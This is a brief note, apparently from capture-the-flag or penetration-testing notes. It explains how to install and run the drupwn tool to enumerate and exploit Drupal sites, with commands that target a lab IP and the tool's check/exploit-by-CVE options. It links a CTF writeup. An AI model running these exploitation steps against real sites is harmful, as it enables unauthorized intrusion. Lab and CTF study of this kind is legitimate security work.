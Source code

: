 #### For drupal exploitation/enumeration
Github:
[drupwn](https://github.com/immunIT/drupwn)

In order to make this exploit working first run the python setup.py script:

```python
python setup.py install
```

Then run the enumeration/exploitation binary with this command:

```shell
./drupwn --target http://10.0.160.196 --mode <exploit/enum>
```

Finally use the wizard instructions:

```shell
Commands available: list | quit | check [CVE_NUMBER] | exploit [CVE_NUMBER]
```

Example:
[ECHO CTF tweek](https://echoctf.red/target/24/writeup/read/13)
